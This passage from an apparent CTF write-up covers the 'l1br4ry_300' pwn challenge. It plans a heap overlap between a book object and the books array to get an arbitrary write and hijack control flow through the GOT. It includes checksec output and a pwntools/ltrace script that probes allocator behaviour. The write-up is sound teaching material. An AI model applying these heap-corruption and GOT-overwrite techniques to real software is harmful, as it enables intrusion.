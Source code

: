 We can also see that the application uses a realloc'ed array to store the
pointers to the book objects. It took us quite a while to realize how we could
exploit this. If we allocate a lot of books and free them again we might
somehow run into the condition that a book and the books array are in the same
place on the heap. 

If we come to this condition we can use the favorite book pointer to point to
that location and use the edit book code to write to whatever is at that
location. If the books array is a the versy same location we can also modify 
it and replace one of the pointers to the book objects with a pointer to 
another arbitrary memory location.
Then we use the edit books functionality again to write something at that
location. This would make a very nice write-anything-anywhere primitive. 
An easy target for this are overwrites to the GOT, but we have to check for
mitigation mechanisms first.

```
[*] '/media/data/ctf/tumctf_2016/pwn/l1br4ry_300/vuln'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE
```

So we have only partial RELRO, which usually isn't really and obstacle, because often 
you can find an imported function with a writable GOT entry, so that control-flow
can be hijacked by overwriting a function pointer in the GOT.

OK so we have a plan for exploiting this issue but first we need to check whether we 
can reach the aforementioned condition. We
used `ltrace` to log the calls to malloc and realloc and then search through
the output to find a `malloc` (for book objects) and a `realloc` (for the books
array) that have returned the same address. Note that it's important that the
`realloc` calls also shrink the size of the books array, otherwise this would
probably be impossible to exploit this way.

The following script allocates a bunch of books and then frees them again and
searches the ltrace output for matching calls to `malloc`/`realloc` and outputs
the number of book allocations it took to get there.

```python
from pwn import *

errf = open("./ltrace.out", "w")
vp = process("ltrace -C -i -e 'malloc+free+realloc' ./vuln",
             shell=True, stderr=errf)

# create a couple of books
p = log.progress("allocating books: ")
for i in range(100):
    vp.send("a\n\n\n\n")
    if i & 0xf == 0:
        vp.clean()
        p.status("{} of 100".format(i))
p.success("done")

p = log.progress("deleting books: ")
for i in range(100):
    vp.send("0\nd\n")
    if i & 0xf == 0:
        vp.clean()
        p.status("{} of 100".format(i))
p.success("done")

vp.close()
errf.flush()
```